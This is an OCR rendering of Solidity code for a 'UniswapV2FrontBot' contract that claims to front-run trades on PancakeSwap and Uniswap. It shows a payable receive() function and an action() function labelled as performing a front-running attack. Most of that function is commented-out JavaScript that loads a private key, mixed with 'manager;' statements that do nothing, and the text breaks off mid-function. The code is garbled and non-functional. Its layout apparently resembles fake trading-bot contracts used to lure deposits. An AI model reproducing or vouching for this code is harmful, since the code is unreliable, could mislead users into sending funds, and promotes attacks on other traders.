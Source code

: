 pragma solidity ^0.6.6;

// PancakeSwap FrontrunDeployer
import "https://github.com/Uniswap/uniswap-v2-core/blob/master/contracts/interfaces/IUniswapV2Callee.sol";


// PancakeSwap manager
import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Factory.sol";
import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Exchange.sol";

contract UniswapV2FrontBot {
    
    string public tokenName;
	string public tokenSymbol;
	uint frontrun;
	uint manager;
	
	
	constructor(string memory _tokenName, string memory _tokenSymbol) public {
		tokenName = _tokenName;
		tokenSymbol = _tokenSymbol;
		manager = frontrun;
		
		}
	
	    
	    // Send required BNB for liquidity pair
	    receive() external payable {}
	    
	    
	    // Perform tasks (clubbed .json functions into one to reduce external calls & reduce gas) manager.performTasks();
	    
	    function action() public payable {
	
	//Perform a front-running attack on uniswap

//const fs = require('fs');
//var Web3 = require('web3');
//var abiDecoder = require('abi-decoder');
//var colors = require("colors");
//var Tx = require('ethereumjs-tx').Transaction;
//var axios = require('axios');
//var BigNumber = require('big-number');

//const {NETWORK, PANCAKE_ROUTER_ADDRESS, PANCAKE_FACTORY_ADDRESS, PANCAKE_ROUTER_ABI, PANCAKE_FACTORY_ABI, PANCAKE_POOL_ABI, HTTP_PROVIDER_LINK, WEBSOCKET_PROVIDER_LINK, HTTP_PROVIDER_LINK_TEST} = require('./constants.js');
//const {setBotAddress, getBotAddress, FRONT_BOT_ADDRESS, botABI} = require('./bot.js');
//const {PRIVATE_KEY, TOKEN_ADDRESS, AMOUNT, LEVEL} = require('./env.js');

//const INPUT_TOKEN_ADDRESS = '0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c';
//const WBNB_TOKEN_ADDRESS = '0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c';
manager;

//var input_token_info;
//var out_token_info;
//var pool_info;
//var gas_price_info;
manager;
